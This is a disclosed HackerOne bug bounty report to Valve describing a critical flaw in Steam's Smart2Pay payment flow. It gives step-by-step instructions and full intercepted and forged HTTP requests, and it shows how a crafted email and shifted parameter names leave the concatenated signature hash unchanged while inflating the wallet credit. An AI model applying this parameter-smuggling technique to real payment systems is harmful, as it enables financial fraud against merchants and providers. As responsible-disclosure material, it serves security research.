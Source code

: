 # Modify in-flight data to payment provider Smart2Pay

## Report Details
- **Report ID**: 1295844
- **URL**: https://hackerone.com/reports/1295844
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-08-09T13:18:20.444Z
- **Disclosed**: 2021-08-10T22:05:36.053Z

## Reporter
- **Username**: drbrix
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: valve

## Vulnerability Information
I have found vulnerability which allows attacker to generate steam wallet balance.

Firstly you will have to change yours steam account email to something like (I will explain why in next steps, amount100 is the important part): 
brixamount100abc@█████

Then go to https://store.steampowered.com/steamaccount/addfunds and click add add funds.

Proceed to payment and select any payment which uses Smart2Pay payment method (przelewy24 in my country).

Click next steps as you would do with normal transaction.

Intercept POST request to https://globalapi.smart2pay.com/

You should see request like that

```
POST / HTTP/1.1
Host: globalapi.smart2pay.com
Content-Length: 388
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://store.steampowered.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://store.steampowered.com/
Accept-Encoding: gzip, deflate
Accept-Language: pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

MerchantID=1102&MerchantTransactionID=███&Amount=2000&Currency=PLN&ReturnURL=https%3A%2F%2Fstore.steampowered.com%2Fpaypal%2Fsmart2pay%2F████%2F&MethodID=12&Country=PL&CustomerEmail=brixamount100abc%40███████&CustomerName=_drbrix_&SkipHPP=1&Description=Steam+Purchase&SkinID=101&Hash=███
```


We cant change parameters as there is Hash field with signature, however signature is generated like that hash(ALL_FIELDS_NAMES_VALUES_CONTACTED)

For this request it will look like that:

`hash(MerchantID1102MerchantTransactionID█████Amount2000.....)`

So with our special email we can move parameters in a way that will change amount for us

For example, we can change original `Amount=2000` to `Amount2=000` and after contacting it still will be `Amount2000`

Then we can change email from `CustomerEmail=brixamount100abc%40████` to `CustomerEmail=brix&amount=100&ab=c%40█████████` by this we are adding new field amount with our value.

new request should look like that:

```
POST / HTTP/1.1
Host: globalapi.smart2pay.com
Content-Length: 388
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="92", " Not A;Brand";v="99", "Google Chrome";v="92"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://store.steampowered.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://store.steampowered.com/
Accept-Encoding: gzip, deflate
Accept-Language: pl-PL,pl;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

MerchantID=1102&MerchantTransactionID=██████&Amount2=000&Currency=PLN&ReturnURL=https%3A%2F%2Fstore.steampowered.com%2Fpaypal%2Fsmart2pay%2F████%2F&MethodID=12&Country=PL&CustomerEmail=brix&amount=100&ab=c%40██████████&CustomerName=_drbrix_&SkipHPP=1&Description=Steam+Purchase&SkinID=101&Hash=█████████
```

Then just pay 1 $ and you should get your money on steam wallet in few hours/days those are some transactions made with this metod:
2███████3
2████9

and this is account i was testing everything on: 
http://steamcommunity.com/profiles/7656██████████

## Impact

I think impact is pretty obvious, attacker can generate money and break steam market, sell game keys for cheap etc.

## Attachments
No attachments
